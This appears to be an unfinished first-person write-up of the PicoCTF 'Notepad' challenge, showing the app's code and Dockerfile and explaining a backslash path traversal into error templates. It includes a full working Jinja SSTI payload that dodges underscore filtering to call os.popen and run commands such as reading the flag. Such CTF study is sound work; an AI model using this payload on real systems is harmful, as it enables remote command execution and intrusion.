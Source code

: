 This is my first ever writeup so bare with me haha.

Notepad is a hard level PicoCTF challenge. It's relatively small at least code wise containing an app.py file that is just 22 lines of python, and here they are:

'''
from werkzeug.urls import url_fix
from secrets import token_urlsafe
from flask import Flask, request, render_template, redirect, url_for

app = Flask(__name__)

@app.route("/")
def index():
    return render_template("index.html", error=request.args.get("error"))

@app.route("/new", methods=["POST"])
def create():
    content = request.form.get("content", "")
    print(content)
    if "_" in content or "/" in content:
        return redirect(url_for("index", error="bad_content"))
    if len(content) > 512:
        return redirect(url_for("index", error="long_content", len=len(content)))
    name = f"static/{url_fix(content[:128])}-{token_urlsafe(8)}.html"
    with open(name, "w") as f:
        f.write(content)
    return redirect(name)
'''


Before anything I want to know where the flag will be stored on the docker container, heres the Dockerfile:

'''
# Dockerfile (fixed & pinned for lab testing)
FROM python:3.9.2-slim-buster

# Ensure deterministic output from python processes in containers
ENV PYTHONUNBUFFERED=1

WORKDIR /app

# Install specific (older) versions intentionally:
# - Flask 2.0.3 (compatible with Werkzeug 2.0.x)
# - Werkzeug 2.0.3 (contains url_fix)
# - pin gunicorn to a modern-but-known version
RUN pip install --no-cache-dir "Flask==2.0.3" "werkzeug==2.0.3" "gunicorn==20.1.0"

# Copy app + assets
COPY app.py flag.txt ./
COPY templates templates

# Make sure required dirs exist, set permissions, and rename the flag file to a random name
RUN mkdir -p /app/static /app/templates/errors && \
    chmod -R 775 /app && \
    chmod 1773 /app/static /app/templates/errors && \
    # only rename if flag.txt exists
    if [ -f flag.txt ]; then mv flag.txt flag-$(cat /proc/sys/kernel/random/uuid).txt; fi

# Expose a port (optional, but useful)
EXPOSE 8000

# Fix gunicorn CLI flags: use --user and --group properly and bind to port 8000
CMD ["gunicorn", "-w", "16", "-t", "5", "--graceful-timeout", "0", "--user", "nobody", "--group", "nogroup", "-b", "0.0.0.0:8000", "app:app"]

'''

As you can see from 'COPY app.py flag.txt ./' the flag will just be a file in the root directory. From this I assumed this may be an LFI challenge or RCE.


Now, Diving into te code it has some interesting behaviour. The code is made to save notes into a directory static as a .html file, it also saves the file as the first 128 characters of the note along with 8 random characters in the end.
Immediately I attempted a directory traversal as the name of the file is being generated and then passed onto pythons open() function, which takes a filename that can include ../ ... interesting.

Now theres an issue, two characters are filtered out from the notes, that being forward slash '/' and underscores '_'. The underscores will make sense later.
I wanted to see if I could find a way around the filtering and so I looked up the url_fix function from werkzeug. Heres the function:

'''
from werkzeug.urls import url_fix

def url_fix_source(s, charset='utf-8'):
    r"""Sometimes you get an URL by a user that just isn't a real URL because
    it contains unsafe characters like ' ' and so on. This function can fix
    some of the problems in a similar way browsers handle data entered by the
    user:

    >>> url_fix(u'http://de.wikipedia.org/wiki/Elf (Begriffskl\xe4rung)')
    'http://de.wikipedia.org/wiki/Elf%20(Begriffskl%C3%A4rung)'

    :param s: the string with the URL to fix.
    :param charset: The target charset for the URL if the url was given as
                    unicode string.
    """
    # First step is to switch to unicode processing and to convert
    # backslashes (which are invalid in URLs anyways) to slashes.  This is
    # consistent with what Chrome does.
    s = to_unicode(s, charset, 'replace').replace('\\', '/')

    # For the specific case that we look like a malformed windows URL
    # we want to fix this up manually:
    if s.startswith('file://') and s[7:8].isalpha() and s[8:10] in (':/', '|/'):
        s = 'file:///' + s[7:]

    url = url_parse(s)
    path = url_quote(url.path, charset, safe='/%+$!*\'(),')
    qs = url_quote_plus(url.query, charset, safe=':&%=+$!*\'(),')
    anchor = url_quote_plus(url.fragment, charset, safe=':&%=+$!*\'(),')
    return to_native(url_unparse((url.scheme, url.encode_netloc(),
                                  path, qs, anchor)))

'''

Something really interesting here is that url_fix converts backslashes to forwardslashes... :)

This was a clear way to bypass the forwardslash filter. 
Now, submitting a note with content '..\test' will write files to the apps main directory. I tested this in a docker file and it worked.
Something I shouldve mentioned earlier is that the app can accept error templates when the notepad exceeds 512 characters of contains bad characters.
The templates are stored in the templates directory within the apps main directory. 
Templates are passed straing into python, interestingly they can execute python code inside curly braces. At this point I was sure this was a SSTI (Server Side Template Injection).
Using the previous directory traversal vulnerability, I am able to place files in the templates/errors directory, which is exactly where python pulls errors from.
Now, to execute the SSTI vulnerability I had to supply 128 random characters to not mess up the name (not entirely sure if this was required but it's more stable).
Here was my original note I submitted as a test:

..\templates\errors\expxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx{{ print ('ello?')}}

after submitting this note, the server placed a file with the name 'expxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx-TYTVPd8HE3I.html' in the errors directory.
I could then access this file by passing an error parameter with the name of that file to the front page as so:

[ ADD IMAGE HERE ]

Now, I need to be able to execute system commands, I could just read files but thats boring. Using the regular SSTI oneliner does not work because of the previously mentioned underscore '_' filtering, so we have to get creative.
Using pythons 'attr' function. The only issue is we cant get by with just attr, this is because certain objects have underscores no matter what way you access it. For this we can use the byte representation of underscores in python: \x5f. 
Now, we can get to the __builtins__ object in python which houses __getitem__ which from there you can get to my beloved import function and import os.popen. With this, we have SSTI :D. Heres the full payload:

..\templates\errors\expxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}

for simplicity the SSTI payload is:
request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()

Now you can easily find a payload just like this online or an alternative but doing it myself is more fun and you learn more.
Anyways, after submitting this payload, you can just access it and run system commands, I switch out 'ls' to 'cat /flag.txt' and you can read the flag as so:

[ ADD IMAGE HERE ]

You could also run any command you'd like of course.

